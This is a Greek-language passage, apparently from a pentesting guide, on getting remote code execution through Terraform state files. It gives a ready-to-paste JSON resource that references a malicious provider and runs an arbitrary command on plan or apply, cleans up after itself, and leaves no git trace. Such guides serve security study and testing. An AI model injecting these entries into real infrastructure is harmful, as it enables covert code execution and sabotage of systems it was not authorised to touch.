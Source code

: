 Σε περίπτωση που έχετε δικαιώματα εγγραφής στα αρχεία κατάστασης terraform αλλά δεν μπορείτε να αλλάξετε τον κώδικα terraform, [**αυτή η έρευνα**](https://blog.plerion.com/hacking-terraform-state-privilege-escalation/) προσφέρει μερικές ενδιαφέρουσες επιλογές για να εκμεταλλευτείτε το αρχείο. Ακόμα και αν έχετε δικαιώματα εγγραφής στα αρχεία ρυθμίσεων, η χρήση του διαύλου των αρχείων κατάστασης είναι συχνά πολύ πιο ύπουλη, καθώς δεν αφήνετε ίχνη στην ιστορία του `git`.

### RCE στο Terraform: δηλητηρίαση αρχείου ρυθμίσεων

Είναι δυνατόν να [δημιουργήσετε έναν προσαρμοσμένο πάροχο](https://developer.hashicorp.com/terraform/tutorials/providers-plugin-framework/providers-plugin-framework-provider) και απλώς να αντικαταστήσετε έναν από τους παρόχους στο αρχείο κατάστασης terraform με τον κακόβουλο ή να προσθέσετε μια ψεύτικη πόρο που αναφέρεται στον κακόβουλο πάροχο.

Ο πάροχος [statefile-rce](https://registry.terraform.io/providers/offensive-actions/statefile-rce/latest) βασίζεται στην έρευνα και οπλίζει αυτή την αρχή. Μπορείτε να προσθέσετε μια ψεύτικη πόρο και να δηλώσετε την αυθαίρετη εντολή bash που θέλετε να εκτελέσετε στην ιδιότητα `command`. Όταν ενεργοποιηθεί η εκτέλεση του `terraform`, αυτό θα διαβαστεί και θα εκτελεστεί τόσο στα βήματα `terraform plan` όσο και `terraform apply`. Σε περίπτωση του βήματος `terraform apply`, το `terraform` θα διαγράψει την ψεύτικη πόρο από το αρχείο κατάστασης μετά την εκτέλεση της εντολής σας, καθαρίζοντας μετά από τον εαυτό του. Περισσότερες πληροφορίες και μια πλήρη επίδειξη μπορείτε να βρείτε στο [GitHub repository που φιλοξενεί τον πηγαίο κώδικα για αυτόν τον πάροχο](https://github.com/offensive-actions/terraform-provider-statefile-rce).

Για να το χρησιμοποιήσετε άμεσα, απλώς συμπεριλάβετε τα παρακάτω σε οποιαδήποτε θέση του πίνακα `resources` και προσαρμόστε τις ιδιότητες `name` και `command`:
```json
{
"mode": "managed",
"type": "rce",
"name": "<arbitrary_name>",
"provider": "provider[\"registry.terraform.io/offensive-actions/statefile-rce\"]",
"instances": [
{
"schema_version": 0,
"attributes": {
"command": "<arbitrary_command>",
"id": "rce"
},
"sensitive_attributes": [],
"private": "bnVsbA=="
}
]
}
```
Τότε, μόλις εκτελεστεί το `terraform`, ο κώδικάς σας θα εκτελεστεί.

### Διαγραφή πόρων <a href="#deleting-resources" id="deleting-resources"></a>

Υπάρχουν 2 τρόποι για να καταστραφούν οι πόροι:

1. **Εισάγετε έναν πόρο με τυχαίο όνομα στο αρχείο κατάστασης που δείχνει στον πραγματικό πόρο προς καταστροφή**
